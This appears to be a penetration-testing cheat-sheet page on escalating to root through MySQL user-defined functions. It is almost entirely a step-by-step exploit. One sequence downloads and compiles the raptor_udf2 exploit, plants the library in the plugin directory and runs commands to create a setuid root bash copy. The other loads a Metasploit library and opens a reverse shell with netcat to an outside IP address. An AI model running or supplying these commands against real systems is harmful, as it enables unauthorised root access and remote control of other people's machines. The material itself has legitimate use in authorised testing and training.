 ```yaml
---
description: PrivEsc with MySQL User Defined Functions
---
```


# MYSQL

* Mysql service is running with root privileges. (ps aux | grep mysql)
* You know root's password. (Database config files or no password for root)
* If you can not access bash(or similar) shell, you can upload library as hex format. You can find this way in the [subpage](hex.md).

Reference: [https://redteamnation.com/mysql-user-defined-functions/](https://redteamnation.com/mysql-user-defined-functions/)

In this way, we will assume you have shell access on the machine. Steps are:

1. Download UDF library source code
2. Compile it on the machine
3. Connect the database
4. Create new function for code execution
5. Voila!

```
$ mkdir /tmp/test && cd /tmp/test
$ wget http://0xdeadbeef.info/exploits/raptor_udf2.c

$ gcc -g -c raptor_udf2.c -fPIC
$ gcc -g -shared -Wl,-soname,raptor_udf2.so -o raptor_udf2.so raptor_udf2.o -lc

mysql -u root -p
mysql> use mysql;
mysql> create table foo(line blob);
mysql> insert into foo values(load_file('/tmp/test/raptor_udf2.so'));
# Look for the value of plugin_dir
mysql> show variables like '%plugin%';
mysql> select * from foo into dumpfile '{plugin_directory}raptor_udf2.so';
mysql> create function do_system returns integer soname 'raptor_udf2.so';
mysql> select * from mysql.func;
+-----------+-----+----------------+----------+
| name      | ret | dl             | type     |
+-----------+-----+----------------+----------+
| do_system |   2 | raptor_udf2.so | function | 
+-----------+-----+----------------+----------+
1 row in set (0.00 sec)

mysql> select do_system('cp /bin/bash /tmp/test/rootbash; chmod +xs /tmp/test/rootbash');
```

If you have no chance to compile it and the machine's arch is x86\_64, you can use precompiled binary to create function.

```
$ cp /usr/share/metasploit-framework/data/exploits/mysql/lib_mysqludf_sys_64.so .

mysql -u root -p
mysql> use mysql;
mysql> create table foo(line blob);
mysql> insert into foo values(load_file('/tmp/test/lib_mysqludf_sys_64.so'));
# Look for the value of plugin_dir
mysql> show variables like '%plugin%';
mysql> select * from foo into dumpfile '{plugin_directory}lib_mysqludf_sys_64.so';
mysql> create function sys_exec returns integer soname 'lib_mysqludf_sys_64.so';
mysql> select * from mysql.func;
+----------+-----+------------------------+----------+
| name     | ret | dl                     | type     |
+----------+-----+------------------------+----------+
| sys_exec |   2 | lib_mysqludf_sys_64.so | function |
+----------+-----+------------------------+----------+
1 row in set (0.00 sec)

mysql> select sys_exec('nc -e /bin/bash 10.10.10.10 8080');
```

